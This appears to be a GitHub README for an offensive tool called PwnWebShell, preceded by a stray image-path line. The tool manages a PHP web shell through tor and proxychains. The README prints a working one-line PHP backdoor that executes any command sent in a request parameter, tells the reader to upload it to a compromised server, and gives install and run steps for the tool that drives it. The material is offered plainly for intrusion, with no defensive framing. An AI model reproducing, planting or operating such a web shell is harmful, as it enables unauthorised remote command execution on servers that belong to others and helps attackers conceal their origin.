 # PwnWebShell
Tool to facilitate the management of our webshell from a terminal.

All we need, is to upload to the committed server a PHP structure like the following to execute commands:

```
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

After that specify the url where our .php file is located in the script variable called url_webshell, example url_webshell="https://example.com/shell.php"

**Requirements - curl tor proxychains rlwrap**

`sudo apt install curl tor proxychains-ng rlwrap -y`

**Installation**

  
1. `git clone https://github.com/DarkTrojanDev/PwnWebShell.git`


2. `chmod +x pwnwebshell.sh`


**Execution**
	
1. `sudo rlwrap ./pwnwebshell.sh`

